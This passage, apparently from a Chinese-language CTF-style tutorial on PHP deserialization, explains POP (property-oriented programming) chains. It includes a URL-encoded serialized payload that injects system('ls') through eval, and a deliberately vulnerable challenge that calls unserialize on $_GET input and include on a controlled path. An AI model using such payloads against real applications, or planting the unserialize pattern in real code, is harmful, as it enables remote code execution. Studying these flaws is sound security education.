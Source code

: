 ```php
    var $test2 = "system('ls')";
//    public function action(){
//        eval($this->test2);
//    }
}
$a = new index;
echo urlencode(serialize($a));
//unserialize($_GET['test']);
?test=O%3A5%3A%22index%22%3A1%3A%7Bs%3A11%3A%22%00index%00test%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A5%3A%22test2%22%3Bs%3A13%3A%22system%28%27ls%27%29%3B%22%3B%7D%7D
```

## POP链

在反序列中，我们能控制的数据就是对象中的属性值（成员变量），所以在PHP反序列中有一种漏洞利用方法叫“面向属性编程”，即POP

POP链就是利用魔术方法在里面进行多次跳转然后获取敏感数据的一种payload。

```php
<?php
//flag is in flag.php
class Modifier {
    private $var;
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
```
